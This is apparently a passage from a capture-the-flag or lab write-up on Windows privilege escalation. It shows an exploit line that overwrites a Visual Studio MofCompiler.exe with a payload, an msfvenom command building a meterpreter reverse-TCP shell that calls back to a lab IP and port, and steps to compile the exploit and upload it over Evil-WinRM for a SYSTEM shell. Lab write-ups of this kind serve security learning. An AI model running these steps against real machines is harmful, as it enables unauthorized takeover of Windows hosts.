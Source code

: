 

and below in the code called `void cb1()`

```js
CopyFile(L"c:\\users\\public\\payload2.exe", L"C:\\ProgramData\\Microsoft\\VisualStudio\\SetupWMI\\MofCompiler.exe", FALSE);
```

Create a new payload with msfvenom for get the shell as Administrator.

```zsh
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.16.45 lport=9003 -f exe -o payload2.exe
```

You can put the paylaod/reverseShell there or make a path in `c:\windows\Temp`{: .filepath} and make a folder 'test' and inside upload a payload.exe for get shell as `NT/Authority System`

Create a new project using the Desktop Development C++ Kit and right click on 'Expl' Solution and then a box will appear with the add option and select the Existing Project.

tip: I missed hours why dont works the Expl.exe i found the "`Debug`" for compilated need to choose to "`Release`" for works the Expl.exe and get the reverse shell.

![Image](/assets/img/post/compiled/image-13.png)

Build  Solution for compiling/building for get the ouput Expl.exe and upload via Evil-winrm
